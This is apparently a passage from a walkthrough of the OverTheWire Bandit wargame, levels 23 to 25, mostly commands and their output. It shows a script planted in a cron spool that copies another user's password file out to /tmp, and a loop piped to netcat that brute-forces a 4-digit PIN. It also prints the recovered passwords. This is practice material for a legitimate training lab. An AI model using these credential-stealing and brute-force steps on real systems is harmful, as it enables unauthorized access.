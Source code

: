 ```bash
$ chmod 777 /tmp/my_pass
$ cd /var/spool/bandit24/foo
$ vim my_script.sh
```

Put the folowing content:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/my_pass
```

Make it executable for bandit24 (the user running the script).

```bash
chmod 777 /var/spool/bandit24/foo/my_script.sh
```

After a minute...

```bash
$ cat /tmp/my_pass
'VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar'
```

### [Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

> `ssh bandit24@bandit.labs.overthewire.org -p 2220` with password `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`

**Level Goal:** A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```bash
$ nc localhost 30002
'I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.'
test test
'Wrong! Please enter the correct current password. Try again.'
test
'Fail! You did not supply enough data. Try again.'
$ echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000 | nc localhost 30002
'I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.'
$ cd /tmp
$ vim my_script.sh
$ for i in {0001..9999}; do; echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 > log.txt
$ uniq log.txt
'I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d'
```
